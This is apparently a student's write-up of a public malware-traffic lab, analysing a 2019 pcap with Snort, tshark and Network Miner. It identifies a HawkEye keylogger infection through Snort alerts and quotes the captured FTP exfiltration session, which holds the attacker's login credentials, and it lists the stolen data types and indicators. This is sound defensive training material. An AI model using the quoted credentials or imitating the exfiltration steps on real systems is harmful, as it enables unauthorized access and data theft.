 ## Network Traffic Analysis 

> Quick Mode
I already learned some analysis using Wireshark [here!](http://location-href.com/dfir/)

**Picking a Lab**
I have decided to use [this exercise](http://www.malware-traffic-analysis.net/2019/05/02/index.html)

**Tools**

Network Miner [ [Community Edition](https://www.netresec.com/?page=Networkminer) ]
Snort Installation on Windows [Video](https://www.youtube.com/watch?v=RwWM0srLSg0)

**Tasks**
```
+Executive summary:
	On 2019-05-02 at ??:?? UTC, a Windows host used by ????????? was infected with ???????

+Details of the infected Windows host:
	IP address:  
	MAC address:  
	Host name:  
	Windows user account name:

+Indicators of Compromise:
	[List of URLs, domains, IP addresses, and SHA256 hashes related to the infection should appear in this section]
```
They provided alert files in challenge, but i need to detect like this. So i searched at google and test until the right one. 

**Threat Detection with Snort IDS**

Snort Rules
```
https://github.com/thereisnotime/Snort-Rules
```
ET Rules for Snort [ [How to](http://snort-ids.blogspot.com/2013/09/emerging-threats-rules-for-snort.html) ]
```
https://rules.emergingthreats.net/open/snort-2.9.0/
```
Snort Test
 - Don't forget to change network range in snort.conf
 - `ipvar HOME_NET 10.0.0.0/8` ( we can't detect if we don't configure this )
```
snort -r 2019-05-02-traffic-analysis-exercise.pcap -c C:\Snort\etc\snort.conf -T
```
Pcap Analysis with Snort

```
snort -r 2019-05-02-traffic-analysis-exercise.pcap -c C:\Snort\etc\snort.conf
```
Alert.ids
```
D:\Network Analysis\BEGUILESOFT>cat C:\Snort\log\alert.ids
[**] [129:12:1] Consecutive TCP small segments exceeding threshold [**]
[Classification: Potentially Bad Traffic] [Priority: 2]
05/03-04:06:03.172917 10.0.0.10:445 -> 10.0.0.227:49194
TCP TTL:128 TOS:0x0 ID:9007 IpLen:20 DgmLen:41 DF
***A**** Seq: 0x7762B279  Ack: 0xBBCE31E5  Win: 0xFC  TcpLen: 20

[**] [129:15:1] Reset outside window [**]
[Classification: Potentially Bad Traffic] [Priority: 2]
05/03-04:06:09.366061 10.0.0.227:49193 -> 10.0.0.10:135
TCP TTL:128 TOS:0x0 ID:303 IpLen:20 DgmLen:40 DF
*****R** Seq: 0xCE082306  Ack: 0xCE082306  Win: 0x0  TcpLen: 20

[**] [129:12:1] Consecutive TCP small segments exceeding threshold [**]
[Classification: Potentially Bad Traffic] [Priority: 2]
05/03-04:06:17.836582 10.0.0.10:445 -> 10.0.0.227:49215
TCP TTL:128 TOS:0x0 ID:9117 IpLen:20 DgmLen:41 DF
***A**** Seq: 0x76517EE  Ack: 0xEE01F75C  Win: 0xFB  TcpLen: 20

[**] [129:12:1] Consecutive TCP small segments exceeding threshold [**]
[Classification: Potentially Bad Traffic] [Priority: 2]
05/03-04:06:25.855232 10.0.0.10:445 -> 10.0.0.227:49215
TCP TTL:128 TOS:0x0 ID:9122 IpLen:20 DgmLen:41 DF
***A**** Seq: 0x76517EE  Ack: 0xEE01F75C  Win: 0xFB  TcpLen: 20

[**] [129:15:1] Reset outside window [**]
[Classification: Potentially Bad Traffic] [Priority: 2]
05/03-04:06:31.877027 10.0.0.10:445 -> 10.0.0.227:49215
TCP TTL:128 TOS:0x0 ID:9125 IpLen:20 DgmLen:40 DF
***A*R** Seq: 0x76517EF  Ack: 0xEE01F75C  Win: 0x0  TcpLen: 20

[**] [1:33886:1] MALWARE-CNC WIn.Trojan.HawkEye keylogger variant outbound connection [**]
[Classification: A Network Trojan was detected] [Priority: 1]
05/03-04:06:35.419018 10.0.0.227:49205 -> 145.14.145.4:21
TCP TTL:128 TOS:0x0 ID:404 IpLen:20 DgmLen:119 DF
***AP*** Seq: 0xAA9418B5  Ack: 0x55E1BA02  Win: 0xF98C  TcpLen: 20
[Xref => http://www.virustotal.com/en/file/ab7a8e2e7ca3fb87da79774e93be4c9a7a50a6a6f6b479c4cc13dc72416895fa/analysis/]

[**] [1:2020410:4] ET TROJAN HawkEye Keylogger FTP [**]
[Classification: A Network Trojan was detected] [Priority: 1]
05/03-04:06:35.419018 10.0.0.227:49205 -> 145.14.145.4:21
TCP TTL:128 TOS:0x0 ID:404 IpLen:20 DgmLen:119 DF
***AP*** Seq: 0xAA9418B5  Ack: 0x55E1BA02  Win: 0xF98C  TcpLen: 20
[Xref => md5 85f3b302afa0989a91053af6092f3882]

[**] [129:15:1] Reset outside window [**]
[Classification: Potentially Bad Traffic] [Priority: 2]
05/03-04:06:54.353115 10.0.0.227:49207 -> 10.0.0.10:135
TCP TTL:128 TOS:0x0 ID:422 IpLen:20 DgmLen:40 DF
*****R** Seq: 0x74D5AD9A  Ack: 0x74D5AD9A  Win: 0x0  TcpLen: 20

[**] [1:33886:1] MALWARE-CNC WIn.Trojan.HawkEye keylogger variant outbound connection [**]
[Classification: A Network Trojan was detected] [Priority: 1]
05/03-04:16:28.030721 10.0.0.227:49209 -> 145.14.144.10:21
TCP TTL:128 TOS:0x0 ID:474 IpLen:20 DgmLen:120 DF
***AP*** Seq: 0x9003AF99  Ack: 0x443ADCDC  Win: 0xF98A  TcpLen: 20
[Xref => http://www.virustotal.com/en/file/ab7a8e2e7ca3fb87da79774e93be4c9a7a50a6a6f6b479c4cc13dc72416895fa/analysis/]

[**] [1:2020410:4] ET TROJAN HawkEye Keylogger FTP [**]
[Classification: A Network Trojan was detected] [Priority: 1]
05/03-04:16:28.030721 10.0.0.227:49209 -> 145.14.144.10:21
TCP TTL:128 TOS:0x0 ID:474 IpLen:20 DgmLen:120 DF
***AP*** Seq: 0x9003AF99  Ack: 0x443ADCDC  Win: 0xF98A  TcpLen: 20
[Xref => md5 85f3b302afa0989a91053af6092f3882]

[**] [1:33886:1] MALWARE-CNC WIn.Trojan.HawkEye keylogger variant outbound connection [**]
[Classification: A Network Trojan was detected] [Priority: 1]
05/03-04:31:34.453185 10.0.0.227:49213 -> 145.14.145.99:21
TCP TTL:128 TOS:0x0 ID:2828 IpLen:20 DgmLen:121 DF
***AP*** Seq: 0x5D9480C2  Ack: 0x77533E8F  Win: 0xF98A  TcpLen: 20
[Xref => http://www.virustotal.com/en/file/ab7a8e2e7ca3fb87da79774e93be4c9a7a50a6a6f6b479c4cc13dc72416895fa/analysis/]

[**] [1:2020410:4] ET TROJAN HawkEye Keylogger FTP [**]
[Classification: A Network Trojan was detected] [Priority: 1]
05/03-04:31:34.453185 10.0.0.227:49213 -> 145.14.145.99:21
TCP TTL:128 TOS:0x0 ID:2828 IpLen:20 DgmLen:121 DF
***AP*** Seq: 0x5D9480C2  Ack: 0x77533E8F  Win: 0xF98A  TcpLen: 20
[Xref => md5 85f3b302afa0989a91053af6092f3882]
```
**Extracting Data with Network Miner**

Using Network Miner is easy to collect information Hostname, File Carving, Username ,etc ...

HTTP Requests
```
D:\Network Analysis\BEGUILESOFT>tshark -r 2019-05-02-traffic-analysis-exercise.pcap -Y "http.request && ip.src==10.0.0.227" -Tfields -e http.host
www.msftncsi.com
whatismyipaddress.com
```
According to Snort Alert infection was occured in FTP 
Wireshark TCP stream for FTP
```
220 ProFTPD Server (000webhost.com) [::ffff:145.14.145.4]

USER snifferzett

331 User snifferzett OK. Password required

PASS trible22

230-Your bandwidth usage is restricted

230 OK. Current restricted directory is /

OPTS utf8 on

200 OK, UTF-8 enabled

PWD

257 "/" is your current location

CWD /

250 OK. Current directory is /

TYPE I

200 TYPE is now 8-bit binary

PASV

227 Entering Passive Mode (145,14,145,4,145,160).

STOR HawkEye_Keylogger_Stealer_Records_BREAUX-WIN7-PC 5.2.2019 9:36:28 PM.txt

150 Connecting to port 38174

226-File successfully transferred

226 0.073 seconds (measured here), 37.38 Kbytes per second

421 Idle timeout (30 seconds): closing control connection
```
What is taken by Stealer?
 - In Network Miner files tab
```
ClipBoard Data
Mail Passwords Data
Keylogged Data
Screenshot of Desktop
Screenshot of Document Word
```
